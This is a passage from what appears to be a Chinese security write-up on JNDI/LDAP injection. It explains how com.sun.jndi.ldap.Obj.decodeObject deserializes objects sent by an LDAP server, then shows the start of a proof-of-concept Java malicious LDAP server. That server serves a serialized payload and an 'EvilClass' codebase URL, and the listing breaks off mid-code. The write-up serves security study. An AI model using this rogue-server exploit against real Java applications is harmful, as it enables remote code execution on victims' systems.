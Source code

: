 #### 序列化绕过

`com.sun.jndi.ldap.Obj.java#decodeObject`存在对`JAVA_ATTRIBUTES[SERIALIZED_DATA]`的判断
[这里](http://tttang.com/archive/1611/#流程分析)提到 `com.sun.jndi.ldap.Obj.java#decodeObject` 主要功能是解码从`LDAP Server`来的对象，该对象可能是序列化的对象，也可能是一个`Reference`对象。之前讲到`Reference`对象，现在讲一下传来的是序列化的对象这种情况。
如果是序列化对象会调用`deserializeObject`方法
[![serialize1.png](https://storage.tttang.com/media/attachment/2022/05/25/0f23b7e2-d585-4310-a4cd-f3705039f291.png)](https://storage.tttang.com/media/attachment/2022/05/25/0f23b7e2-d585-4310-a4cd-f3705039f291.png)
进入`deserializeObject`方法，发现会进行`readObject`
[![serialize2.png](https://storage.tttang.com/media/attachment/2022/05/25/131b7fe6-fedf-45f1-b860-db06560a5dfe.png)](https://storage.tttang.com/media/attachment/2022/05/25/131b7fe6-fedf-45f1-b860-db06560a5dfe.png)
看一下调用栈
[![serialize3.png](https://storage.tttang.com/media/attachment/2022/05/25/6f3b9090-de13-46b7-9447-5058855844cc.png)](https://storage.tttang.com/media/attachment/2022/05/25/6f3b9090-de13-46b7-9447-5058855844cc.png)

##### poc

```java
import com.alter.JNDI_LDAP.util.serializeObject;
import com.unboundid.ldap.listener.InMemoryDirectoryServer;
import com.unboundid.ldap.listener.InMemoryDirectoryServerConfig;
import com.unboundid.ldap.listener.InMemoryListenerConfig;
import com.unboundid.ldap.listener.interceptor.InMemoryInterceptedSearchResult;
import com.unboundid.ldap.listener.interceptor.InMemoryOperationInterceptor;
import com.unboundid.ldap.sdk.Entry;
import com.unboundid.ldap.sdk.LDAPException;
import com.unboundid.ldap.sdk.LDAPResult;
import com.unboundid.ldap.sdk.ResultCode;

import javax.net.ServerSocketFactory;
import javax.net.SocketFactory;
import javax.net.ssl.SSLSocketFactory;
import java.io.ByteArrayOutputStream;
import java.io.ObjectOutputStream;
import java.net.InetAddress;
import java.net.MalformedURLException;
import java.net.URL;


import static com.alter.JNDI_LDAP.util.serializeObject.getPayload;
import static com.alter.JNDI_LDAP.util.serializeObject.serializeObject;

public class Ldap {
    private static final String LDAP_BASE = "dc=example,dc=com";

    public static void main(String[] argsx) {
        String[] args = new String[]{"http://127.0.0.1:8000/#EvilClass", "1389"};
        int port = 0;
        if (args.length < 1 || args[0].indexOf('#') < 0) {
            System.err.println(Ldap.class.getSimpleName() + " <codebase_url#classname> [<port>]"); //$NON-NLS-1$
            System.exit(-1);
        } else if (args.length > 1) {
            port = Integer.parseInt(args[1]);
        }

        try {
            InMemoryDirectoryServerConfig config = new InMemoryDirectoryServerConfig(LDAP_BASE);
            config.setListenerConfigs(new InMemoryListenerConfig(
                    "listen", //$NON-NLS-1$
                    InetAddress.getByName("0.0.0.0"), //$NON-NLS-1$
```
